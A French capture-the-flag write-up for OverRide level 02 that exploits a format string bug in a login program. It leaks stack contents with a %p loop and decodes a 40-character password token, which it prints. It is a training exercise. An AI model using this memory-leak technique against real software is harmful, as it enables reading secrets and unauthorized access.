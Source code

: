 
# Level 02


En lançant l'executable a la racine on voit qu'il nous demande un utilisateur et un mots de pass comme dans l'exercice précédant :
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: s
--[ Password: s
*****************************************
s does not have access!
level02@OverRide:~$ 
``` 
Quoi que l'on met on nous dit que nous n'avons pas les accès. On peut voir en desasemblant le programme que ce dernier appelle un printf nous allons donc pouvoir faire une format string attack 
```
(gdb) disas main 
[...]
   0x0000000000400a96 <+642>:   lea    -0x70(%rbp),%rax
   0x0000000000400a9a <+646>:   mov    %rax,%rdi
   0x0000000000400a9d <+649>:   mov    $0x0,%eax
   0x0000000000400aa2 <+654>:   callq  0x4006c0 <printf@plt>
[...]
```
On peut voir que le programme appelle la variable directement, nous pouvons donc afficher la stack pour ce faire nous allons utiliser `%p`
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %1p
--[ Password: 
*****************************************
0x7fffffffe500 does not have access!
level02@OverRide:~$ 
```
On à donc la première adresse de la stack, bien, maintenant nous allons automatiser pour afficher les autre :
``` bash
for((i = 1; i < 30; i++)); do echo "$i - %$i\$p" | ./level02 ;done
```
Pour plus de lisibiliter on vas ajouter un grep ppour recupere selement la ligne qui nous interesse : 
```
level02@OverRide:~$  for((i = 1; i < 30; i++)); do echo "$i - %$i\$p" | ./level02 | grep not ;done
[...]
15 - (nil) does not have access!
16 - (nil) does not have access!
17 - (nil) does not have access!
18 - (nil) does not have access!
19 - (nil) does not have access!
20 - 0x100000000 does not have access!
21 - (nil) does not have access!
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
27 - (nil) does not have access!
28 - 0x383225202d203832 does not have access!
29 - 0x7024 does not have access!
level02@OverRide:~$ 
```
On remarque que il y a 5 valeur qui on l'air particulières. On sait que le token fait 40 caractères, donc on en déduit que nos 5 valeurs trouver dans la stack peuvent correspondre à notre token. Puisque 5 * 8 = 40.
On prend donc toutes ces valeurs et on les passes dans un convertisseur hex to ascii. En utilisant python on obtient :
```
level02@OverRide:~$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
level02@OverRide:~$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
level02@OverRide:~$ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
XgNWCqz7
level02@OverRide:~$ python -c 'print "354a35686e475873".decode("hex")[::-1]'
sXGnh5J5
level02@OverRide:~$ python -c 'print "48336750664b394d".decode("hex")[::-1]'
M9KfPg3H
```
Le `[::-1]` permet de reverse la string, puisqu'elle nous est donnée depuis la stack. Il reste juste a concatener tout ca ce aui nous donne : 
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```